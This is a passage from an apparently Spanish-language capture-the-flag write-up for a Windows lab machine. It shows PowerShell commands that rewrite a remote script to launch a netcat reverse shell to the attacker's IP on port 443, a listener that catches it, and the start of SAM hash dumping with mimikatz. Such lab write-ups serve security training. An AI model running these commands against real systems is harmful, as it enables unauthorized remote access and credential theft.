 Verificamos que se ha sobreescrito correctamente el script, y ahora mismo lo que realiza este script es ejecutar la el binario de _**nc.exe**_ que hemos subido anteriormente en (C:\Utils\nc.exe).

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\nc.exe -e cmd 10.10.16.7 443' ) }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { ((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\nc.exe -e cmd 10.10.16.7 443') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1 }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { type C:\Users\imonks\Desktop\wm.ps1 }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Procederemos a ejecutar el script de PowerShell modificado y desde una consola de nuestra Kali nos pondremos en escucha por el  puerto especificado para recibir la Reverse Shell.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3035_vmware_J44aJBYOQ9.png" alt=""><figcaption></figcaption></figure>

Verificaremos que hemos logrado obtener la Reverse Shell y nos encontramos con el usuario _**jmorgan**_ en el equipo _**Acute-PC01**_. Verificamos que el usuario es Administrador local del equipo.

```bash
rlwrap -cAr nc -nlvp 443

hostname

whoami /all
```

<figure><img src="../../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Dumping Credentials - SAM File Hashes (mimikatz)

Debido que disponemos de permisos de Administrador sobre el equipo, una de las diversas cosas que poemos realizar en la máquina es dumpear la SAM para obtener los hashes NTLM de los usuarios locales del equipo.

Para ello exportaremos los archivos _**SAM**_ y _**SYSTEM**_ a través de "reg save".
